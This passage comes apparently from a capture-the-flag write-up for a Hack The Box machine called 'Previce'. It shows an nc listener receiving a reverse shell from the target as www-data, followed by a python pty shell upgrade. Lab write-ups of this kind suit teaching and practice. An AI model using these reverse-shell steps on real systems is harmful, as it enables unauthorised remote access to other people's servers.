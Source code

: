 // It worked !! we can see that the server ping our host

// So, we know now that we can communicate directly with the server 

// Lets step up to a reverse shell using nc

![Image 15](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Previce/15.png)

// Open a listiner on our machine and send a modified request with nc encoded command

    $ nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.6] from (UNKNOWN) [10.10.11.104] 51856
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

// We got shell !!!

// We can upgrade our shell with python(if exist)

    which python
    /usr/bin/python
    python -c "import pty;pty.spawn('/bin/sh')"
    $ 

// Great!, move on...
